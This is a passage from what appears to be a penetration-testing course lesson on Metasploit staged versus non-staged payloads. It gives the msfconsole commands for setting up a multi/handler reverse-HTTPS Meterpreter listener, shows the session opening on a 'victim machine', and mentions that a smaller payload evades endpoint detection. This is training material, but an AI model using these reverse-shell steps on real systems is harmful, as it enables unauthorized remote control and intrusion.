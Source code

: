 > Listing 5 - Generating Meterpreter executable with both staged and non-staged payloads

Notice that the non-staged payload is nearly thirty times larger than the staged payload. This significantly smaller payload provides less detection surface for endpoint security solutions.

In order to use staged payloads, we'll need to use the _multi/handler_. This Metasploit module listens for incoming callbacks from staged payloads and delivers the second stage.

To do this, we'll launch msfconsole in quiet mode (-q) and use the multi/handler module. We'll set the payload, LHOST, and LPORT options, which must match the values we used when we generated the payload:

```
kali@kali:~$ sudo msfconsole -q

msf5 > use multi/handler

msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https

msf5 exploit(multi/handler) > set lhost 192.168.119.120
lhost => 192.168.119.120

msf5 exploit(multi/handler) > set lport 443
lport => 443

msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
```

> Listing 6 - Setting up the multi/handler module

With the multi/handler module running, we can download our msfstaged.exe executable and run it on our victim machine. Then, we'll turn our attention to the output from Metasploit:

```
[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.11; (UUID: pm1qmw8u) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.11:49678)

meterpreter > 
```

> Listing 7 - Multi/handler catches the callback and opens a Meterpreter session

A small 7 KB callback was executed to _stage_ the full payload and we note from the output that more than 200 KB of code was sent to spawn the Meterpreter shell from our victim's machine.

Now that we understand the differences between Metasploit's non-staged and staged payloads and understand how to use Netcat and the multi/handler to catch the shell, we'll discuss discretion in the next section.

**Exercise**

1. Experiment with different non-staged and staged Metasploit payloads and use the multi/handler module to receive the shell.
